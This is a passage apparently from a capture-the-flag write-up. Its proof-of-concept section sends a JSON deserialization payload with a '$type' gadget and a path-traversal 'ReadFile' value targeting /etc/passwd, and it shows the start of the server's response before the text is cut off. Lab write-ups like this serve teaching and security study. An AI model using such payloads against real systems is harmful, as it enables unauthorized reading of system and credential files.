 [![image-20230531134205700](../img/image-20230531134205700.png)_Click for full
size image_](../img/image-20230531134205700.png)

#### POC

To test this, I’ll get rid of the white space to get it on one line, and send:

    
    
    > {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../etc/passwd"}}
    < {
      "UserId": 0,
      "Session": "Unauthorized",
      "Time": "4:21:03",
      "RemoveOrder": {
        "$type": "bagel_server.File, bagel",